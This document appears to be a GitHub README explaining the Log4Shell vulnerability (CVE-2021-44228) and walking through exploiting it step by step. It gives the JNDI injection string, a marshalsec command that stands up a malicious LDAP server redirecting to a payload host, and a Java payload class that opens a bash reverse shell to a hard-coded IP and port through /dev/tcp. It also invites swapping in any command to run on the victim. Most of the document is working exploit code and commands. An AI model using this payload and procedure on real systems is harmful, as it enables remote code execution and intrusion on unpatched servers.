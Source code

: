
# About Log4Shell - CVE-2021-44228

Log4j is one of the most popular java frameworks. 

This framework involves an API call JNDI. 

This API allows developer to resolve naming services. JNDI has a function “Object lookup” which gives the possibility to return an object from its name.
For example, JNDI can query dns server to make correspondence between a domain name and an IP address, JNDI can also query a lot of services like LDAP or NIS…

The vulnerability takes place because log4j allow request to arbitrary LDAP or DNS server without checking the server response.
Then, an attacker can build malicious LDAP server and make the application execute a payload hosted on the fake LDAP.


## Overview of the Attack

![log4j schema Final](https://user-images.githubusercontent.com/76106120/147581673-63585c5c-ab97-47a8-ac34-b672aeb0be79.png)

# Exploit Log4j

## 1. Find Entry Point

You have to find entry point by injecting request to triggers JNDI lookup resolution to the malicious LDAP.

String to inject: ```${jndi:ldap://<ip>:<port>/<name-of-the-payload-to-execute>}```

First, you can start netcat listener and try to trigger it. 
If the netcat listener is trigger, then you know that the application is vulnerable. 

![image](https://user-images.githubusercontent.com/76106120/147582133-b8466261-e23b-4b8f-b997-9541877b06e9.png)
![image](https://user-images.githubusercontent.com/76106120/147582157-c4408876-3af2-42fe-a5ea-8866a0913886.png)



## 2. Build Malicious Server

In our case we gonna build malicious ldap server.
For that you can download this github project: https://github.com/mbechler/marshalsec.git

Once you are in the project, you are able to build malicious ldap server that redirects connection to a web server which host the payload in order to provide it to the JNDI lookup resolution 

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://<Web-Server-IP>:<Port>/#<name-of-the-payload>
```
 Demo :
 
![image](https://user-images.githubusercontent.com/76106120/147582798-29cca013-e779-491a-81bc-7a933ebde226.png)


## 3. Build Java Payload

Java Payload


```
public class ExploitTest {

    static {
        try {
            java.lang.Runtime.getRuntime().exec(new String[] {"/bin/bash", "-c", "bash -i >& /dev/tcp/10.170.0.120/9001 0>&1"}).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```


>Note: You can replace the last element of the string array by whatever command you want to be executed on the victim host

When your payload is done and ready, you can compile it.
>Note: Keep in mind that the name of your class must be in the same of your .java file otherwise you will get an error during the compilation.

Demo :

![image](https://user-images.githubusercontent.com/76106120/147583275-02f8f4ac-64fd-403f-8ffd-9d9e545429c4.png)

## 4. Ready to Exploit

You can now start web server in the directory of the .class payload.

Hope you get this:

![image](https://user-images.githubusercontent.com/76106120/147583452-0c5aea7f-f4cc-4aa6-bd64-f36c7d5e1490.png)
